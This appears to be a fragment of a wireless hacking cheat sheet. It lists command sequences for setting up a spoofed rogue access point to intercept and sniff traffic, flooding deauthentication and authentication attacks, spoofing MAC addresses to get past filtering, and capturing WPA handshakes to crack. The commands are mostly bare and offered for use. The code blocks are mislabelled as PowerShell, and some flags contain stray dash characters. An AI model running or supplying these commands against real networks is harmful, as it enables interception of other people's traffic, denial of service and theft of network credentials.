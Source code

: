 #### Access Point MITM

```powershell
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# create a bridged interface
# apt-get install bridge-utils
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# assign IP addresses
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# mitm tools
driftnet
ettercap -G
Sniff > Unified sniffing > Hacker Interface
```

### Other things

```powershell
# Find Hidden SSID
aireplay-ng -0 20 –a <BSSID> -c <VictimMac> mon0

# Mac Filtering
macchanger –-mac <VictimMac> wlan0mon
aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
# MAC CHANGER
ifconfig wlan0mon down
macchanger –-mac <macVictima> wlan0mon
ifconfig wlan0mon up

# Deauth Global
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# Authentication DoS Mode
mdk3 wlan0mon a -a $AP_MAC

# Tshark - Filter and dislay data
tshark -r Captura-02.cap -Y "eapol" 2>/dev/null
tshark -i wlan0mon -Y "wlan.fc.type_subtype==4" 2>/dev/null
tshark -r Captura-02.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" 2>/dev/null

# Convert .cap with handshake to .hccap
aircrack-ng -J network network.cap
```
